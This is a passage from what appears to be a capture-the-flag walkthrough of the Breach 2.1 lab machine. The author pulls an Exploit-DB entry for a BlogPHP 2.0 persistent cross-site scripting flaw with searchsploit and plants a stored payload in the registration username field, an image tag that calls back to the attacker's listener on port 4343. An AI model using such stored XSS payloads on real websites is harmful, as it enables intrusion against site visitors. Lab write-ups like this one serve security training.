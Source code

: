 This script is starting the apache server after peter has logged in.

With SQL Injection vulnerability I cannot find a way to run system commands, so I decided research more and try with the Stored Cross Site Scripting, since I could realize that in the image of the home page was writed beef, so I tried with that.

### Stored Cross Siste Scripting

I copied the 17640.txt file to my current directory.

```console
root@kali:~$ searchsploit -m php/webapps/17640.txt
  Exploit: BlogPHP 2.0 - Persistent Cross-Site Scripting
      URL: https://www.exploit-db.com/exploits/17640
     Path: /usr/share/exploitdb/exploits/php/webapps/17640.txt
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /root/breach2.1/17640.txt
```

In the instructions it indicates that in the register section the field username is vulnerable, also the victim has to request the members module to trigger the malicious instruction, so I put the following payload, this will try to connect to my machine listening on port 4343.

```html
<img src="http://192.168.110.150:4343"/>
```

![](/assets/images/breach2/screenshot-6.png)
